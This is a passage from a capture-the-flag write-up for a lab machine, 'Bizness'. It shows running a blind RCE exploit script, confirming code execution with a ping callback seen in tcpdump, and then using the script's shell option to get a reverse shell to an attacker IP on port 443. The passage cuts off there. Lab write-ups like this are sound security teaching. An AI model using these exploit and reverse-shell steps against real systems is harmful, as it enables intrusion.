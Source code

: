     
    
    oxdf@hacky$ sudo update-alternatives --config java
    There are 6 choices for the alternative java (providing /usr/bin/java).
    
      Selection    Path                                            Priority   Status
    ------------------------------------------------------------
      0            /usr/lib/jvm/jdk-11-oracle-x64/bin/java          184729600 auto mode
      1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java      1111      manual mode
      2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java      1711      manual mode
    * 3            /usr/lib/jvm/java-18-openjdk-amd64/bin/java      1811      manual mode
      4            /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java   1081      manual mode
      5            /usr/lib/jvm/jdk-11-oracle-x64/bin/java          184729600 manual mode
      6            /usr/local/java/jdk1.8.0_391/bin/java            1         manual mode
    
    Press <enter> to keep the current choice[*], or type selection number: 5
    update-alternatives: using /usr/lib/jvm/jdk-11-oracle-x64/bin/java to provide /usr/bin/java (java) in manual mode
    

#### POC

To see if this works, I’ll try running `id`:

    
    
    oxdf@hacky$ python exploit.py https://bizness.htb rce id
    Not Sure Worked or not 
    

The message implies that the script doesn’t expect to see the output of the
command. It’s a blind exploit.

I’ll listen for ICMP with `tcpdump` on my host and have it ping me:

    
    
    oxdf@hacky$ python exploit.py https://bizness.htb rce "ping -c 1 10.10.14.6"
    Not Sure Worked or not
    

At `tcpdump`:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    15:58:43.879612 IP 10.10.11.252 > 10.10.14.6: ICMP echo request, id 11245, seq 1, length 64
    15:58:43.879639 IP 10.10.14.6 > 10.10.11.252: ICMP echo reply, id 11245, seq 1, length 64
    

That’s RCE!

#### Shell

The POC has a `shell` option, which, with `nc` listening on 443, I’ll run:

    
    
    oxdf@hacky$ python exploit.py https://bizness.htb shell 10.10.14.6:443Not Sure Worked or not
    

At `nc`, there’s a shell:
